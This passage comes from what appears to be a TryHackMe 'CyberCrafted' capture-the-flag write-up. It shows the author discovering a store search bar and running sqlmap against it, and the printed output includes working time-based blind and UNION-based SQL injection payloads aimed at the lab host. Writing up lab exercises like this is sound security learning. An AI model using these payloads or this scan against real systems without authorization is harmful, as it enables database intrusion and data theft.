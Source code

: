 Oh! I got the new one! Try to input the result into the answer of the question and let’s see whether it is the right one to exploit:

![Untitled](/assets/CyberCrafted%20images/Untitled%209.png)

Haha yes it is!

Route to the **[REDACTED]** path and it displays a **searchbar** with could be vulnerable to the **SQL Injection Vulnerability**

![Untitled](/assets/CyberCrafted%20images/Untitled%2010.png)

## Exploit

### SQL Injection

I use **sqlmap** to scan through the target and find out these SQL Injection vulnerabilities:

```
┌──(kali㉿kali)-[~/TryHackMe/cybercrafted]
└─$ sqlmap -u http://store.cybercrafted.thm/[REDACTED] --form 'search=a&submit='
[..]
sqlmap identified the following injection point(s) with a total of 119 HTTP(s) requests:
---
Parameter: search (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search=eDgj' AND (SELECT 4462 FROM (SELECT(SLEEP(5)))hmcZ) AND 'vDpn'='vDpn&submit=hxLp

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: search=eDgj' UNION ALL SELECT NULL,NULL,CONCAT(0x717a627071,0x6f4578554f70574150457741766c6b494c4a61456465527756546c447348586c76526e6a776b7752,0x716a707871),NULL-- -&submit=hxLp
---
```
